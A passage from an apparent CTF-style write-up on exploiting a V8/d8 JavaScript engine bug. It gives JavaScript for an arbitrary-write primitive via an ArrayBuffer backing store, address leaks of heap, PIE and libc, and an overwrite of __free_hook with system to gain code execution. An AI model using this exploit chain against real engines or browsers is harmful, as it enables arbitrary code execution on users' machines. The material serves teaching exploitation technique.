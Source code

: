 As you can see, we have successfully overwritten `__free_hook` with `&system`. We can chuck this whole thing into a function now as well:
```javascript
function arb_write(addr, val) {
    let buf = new ArrayBuffer(8);
    let dataview = new DataView(buf);
    let buf_addr = addrof(buf);
    let backing_store_addr = buf_addr + 0x20n;
    initial_arb_write(backing_store_addr, addr);
    dataview.setBigUint64(0, BigInt(val), true);
}
```

## Exploitation Technique 1: Overwrite `__free_hook` to `system`

The first way we can get arbitrary code execution is to overwrite `__free_hook` with `system` (as shown above). Then, if we do something as simple as `console.log("xcalc");`, it will allocate some memory for the string `"xcalc"` and then free it, which will cause a call to `system("xcalc");`, thus popping calc.

To do this though, we need some leaks. Note that I am on Ubuntu 18.04.3 LTS, so my offsets for leaks will be different to yours. This is simply the same as Linux userspace exploitation now, so I won't go into too much detail.

What I noticed (through rigorous trial and error) was that if you allocate a native `JSArray` and leak it's Map, the Map points to an address in an mmapped region of memory. Near the base of this mmapped region of memory lies a heap pointer, and this heap pointer points to a PIE address. This way, we can get a PIE leak, get the PIE base address, and then get the Libc base address by using the global offset table, as follows:
```javascript
var test = new Array([1.1, 1.2, 1.3, 1.4]);

var test_addr = addrof(test);
var map_ptr = arb_read(test_addr - 1n);
var map_sec_base = map_ptr - 0x2f79n;
var heap_ptr = arb_read(map_sec_base + 0x18n);
var PIE_leak = arb_read(heap_ptr);
var PIE_base = PIE_leak - 0xd87ea8n;

console.log("[+] test array: 0x" + test_addr.toString(16));
console.log("[+] test array map leak: 0x" + map_ptr.toString(16));
console.log("[+] map section base: 0x" + map_sec_base.toString(16));
console.log("[+] heap leak: 0x" + heap_ptr.toString(16));
console.log("[+] PIE leak: 0x" + PIE_leak.toString(16));
console.log("[+] PIE base: 0x" + PIE_base.toString(16));

puts_got = PIE_base + 0xd9a3b8n;
libc_base = arb_read(puts_got) - 0x809c0n;
free_hook = libc_base + 0x3ed8e8n;
system = libc_base + 0x4f440n;

console.log("[+] Libc base: 0x" + libc_base.toString(16));
console.log("[+] __free_hook: 0x" + free_hook.toString(16));
console.log("[+] system: 0x" + system.toString(16));
```
